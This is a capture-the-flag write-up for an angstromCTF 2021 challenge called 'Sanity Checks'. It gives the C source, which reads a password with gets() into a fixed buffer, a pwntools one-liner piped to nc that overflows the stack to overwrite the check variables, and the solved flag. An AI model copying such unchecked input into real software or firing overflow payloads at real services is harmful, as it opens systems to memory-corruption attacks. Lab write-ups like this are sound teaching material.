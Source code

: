 # Sanity Checks

I made a program (source) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at ```/problems/2021/sanity_checks``` on the shell server, or connect with ```nc shell.actf.co 21303```

* Hints:
```gdb``` may be helpful for analyzing how data is laid out in memory.

* Given Source code:
```#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            
                            FILE *f = fopen("flag.txt","r");
                            
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }
                            
                            fgets(flag, 128, f);
                            
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```
# Python Code: 
```python -c "from pwn import *; print('password123\x00' + 'A'*64 + p32(0x11) + p32(0x3d) + p32(0xf5) + p32(0x37) + p32(0x32)) " | nc shell.actf.co 21303```

# Flag: 
```actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}```

